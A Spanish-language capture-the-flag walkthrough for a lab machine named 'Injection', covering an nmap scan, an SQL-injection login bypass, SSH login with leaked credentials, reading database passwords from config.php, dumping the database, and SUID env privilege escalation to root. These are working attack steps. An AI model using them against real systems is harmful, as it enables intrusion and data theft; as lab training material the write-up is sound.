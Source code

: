 # Máquina: Injection

- **Dificultad:** Muy fácil  
- **Tiempo estimado:** 1 hora

---

Ejecutamos un escaneo básico con `nmap`:

```bash
nmap 172.17.0.3
```

Obtenemos que los puertos abiertos son:

- **22/TCP** → SSH  
- **80/TCP** → HTTP

Hacemos un escaneo más detallado sobre estos puertos:

```bash
nmap 172.17.0.3 -sV -p 22,80
```

**Resultado:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
```

---


Visitamos la dirección `http://172.17.0.3` en el navegador y encontramos una **página de login**.

Dado que la máquina se llama *Injection*, probamos una inyección SQL simple:

- Usuario: `'admin' or 1=1;`
- Contraseña: (cualquier valor)

**Resultado:** Accedemos exitosamente y vemos el siguiente mensaje:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Tenemos:
- **Usuario:** Dylan
- **Contraseña:** KJSDFG789FGSDF78

---

Probamos a conectarnos con esas credenciales:

```bash
ssh dylan@172.17.0.3
```

**Acceso exitoso.**

---


Intentamos enumerar con `sudo -l`, pero no está disponible.

Explorando el sistema, encontramos un archivo interesante en:

```
/var/www/html/config.php
```

Contenido:

```php
return [
    'db' => [
        'host' => 'localhost',
        'user' => 'root',
        'passwd' => 'paso',
        'dbname' => 'register',
        'options' => [
            PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
        ]
    ]
];
```

---

Usamos las credenciales para acceder a la base de datos:

```bash
mysql -u root -ppaso
```

Una vez dentro:

```sql
show databases;
use register;
select * from users;
```

**Resultado:**

```
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
```

Ya conocíamos estos datos, pero ahora sabemos que tenemos control total sobre la base de datos.

Probamos a insertar y eliminar usuarios:

```sql
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba';
```

También podemos exportar la base de datos:

```bash
mysqldump --databases register -u root -ppaso > datos.sql
```

---

Buscamos archivos con el bit SUID activado:

```bash
find / -perm -4000 -user root 2>/dev/null
```

Obtenemos:

```
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/env
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/bin/su
/usr/bin/gpasswd
```

Estos binarios tienen el **bit SUID de root** activado. Esto significa que, si logramos ejecutar alguno de ellos de forma controlada, **podríamos obtener permisos de root**.

Uno de los más interesantes es `env`. Podemos usarlo para ejecutar `bash` manteniendo los privilegios del propietario (root), gracias al parámetro `-p` que conserva los permisos efectivos:

```bash
/usr/bin/env /bin/bash -p
```

Si funciona correctamente, obtendremos una **shell como root**, y lo podremos comprobar con:

```bash
whoami
```

---

**Si devuelve `root`, la escalada fue exitosa.**












